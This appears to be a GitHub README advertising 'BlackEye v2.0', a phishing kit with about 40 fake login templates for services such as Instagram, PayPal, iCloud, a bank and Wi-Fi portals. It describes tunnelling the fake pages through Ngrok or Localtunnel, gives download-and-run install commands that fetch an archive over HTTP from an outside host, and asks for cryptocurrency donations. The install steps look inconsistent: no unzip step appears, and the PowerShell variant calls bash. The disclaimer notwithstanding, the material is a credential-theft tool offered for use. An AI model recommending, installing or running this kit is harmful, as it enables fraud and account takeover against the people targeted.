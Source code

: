 ## BLACKEYE v2.0 (Big update, in a month 23:08:2024 | New: bank template, and update afterwards, Add localhost, and more)
##### The tool is completely free now 

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bankofa.png)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws.png)

23:08:2024  Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr22.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: bc1qmz5qmhyfzrm9hn2gnus85exhry64a8zekyzjuu
-----------------------------------------------------------------------------------------------------------------------------
LTC: ltc1qk4cuts4w8202tr2efun4c380n6nsq4eafxlg4k
-----------------------------------------------------------------------------------------------------------------------------
